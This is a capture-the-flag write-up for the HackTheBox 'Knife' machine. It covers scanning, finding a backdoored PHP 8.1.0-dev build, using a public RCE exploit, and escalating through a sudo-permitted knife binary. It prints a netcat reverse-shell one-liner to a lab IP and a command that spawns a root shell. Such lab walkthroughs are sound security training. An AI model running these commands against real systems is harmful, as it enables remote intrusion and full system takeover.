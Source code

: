 # Knife HackTheBox Writeup
### Level: `Easy` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We use **curl** tool and we headers enumerate, we view "*PHP/8.1.0-dev*", this version have a exploit for **RCE** (Remote Code Execute).

![](3.png)


## Exploitation
We search exploit in "**exploit-db.com**", we download the exploit and execute:

**Exploit**: https://www.exploit-db.com/raw/49933

![](4.png)

We read *user.txt* file:

![](5.png)

## Privilege Escalation
We open a netcat in another terminal and make it interactive with python and a couple of exports.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
```
In addition, we can see that by executing "*sudo -l*", we have access to the "**knife**" binary as **SUDO**.

![](6.png)

We Google and found a way to exploit this misconfiguration to gain root access.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```
We execute the statement, become root and read the file "*root.txt*".

![](7.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
